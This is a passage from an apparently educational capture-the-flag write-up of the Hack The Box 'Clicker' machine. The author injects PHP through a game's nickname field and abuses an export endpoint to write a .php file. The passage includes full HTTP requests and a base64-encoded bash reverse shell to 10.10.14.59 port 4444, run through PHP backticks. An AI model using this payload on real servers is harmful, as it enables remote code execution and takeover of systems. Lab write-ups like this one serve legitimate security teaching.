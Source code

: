 Then I called the export endpoint, requesting a PHP file.

```http
POST /export.php HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Origin: http://clicker.htb
Connection: keep-alive
Referer: http://clicker.htb/admin.php?msg=Data%20has%20been%20saved%20in%20exports/top_players_svgyuuzq.json
Cookie: PHPSESSID=9nj0jaelkdd97jpn2llqe0ts11
Upgrade-Insecure-Requests: 1
Content-Length: 31

threshold=1000000&extension=php
```

I looked at the exported file. My PHP code was executed since my nickname was simply 'IN'.

![RCE](/assets/images/2024/01/Clicker/RCE.png "RCE")

With this, I could build a reverse shell. I started by encoding the reverse shell code in base64.

```bash
$ echo 'bash  -i >& /dev/tcp/10.10.14.59/4444 0>&1  ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTkvNDQ0NCAwPiYxICAK
```

Then I created PHP code that would execute it.

```php
<?php `echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTkvNDQ0NCAwPiYxICAK|base64 -d|bash`;?>
```

I URL encoded the PHP code with [CyberChef](https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=PD9waHAgYGVjaG8gLW4gWW1GemFDQWdMV2tnUGlZZ0wyUmxkaTkwWTNBdk1UQXVNVEF1TVRRdU5Ua3ZORFEwTkNBd1BpWXhJQ0FLfGJhc2U2NCAtZHxiYXNoYDs/Pg) and used that as my nickname.

```http
GET /save_game.php?clicks=20000000&level=30000000&nickname=%3C%3Fphp%20%60echo%20%2Dn%20YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTkvNDQ0NCAwPiYxICAK%7Cbase64%20%2Dd%7Cbash%60%3B%3F%3E HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://clicker.htb/play.php
Cookie: PHPSESSID=4v4qtarbee22g999t7te4dqo1p
Upgrade-Insecure-Requests: 1
```
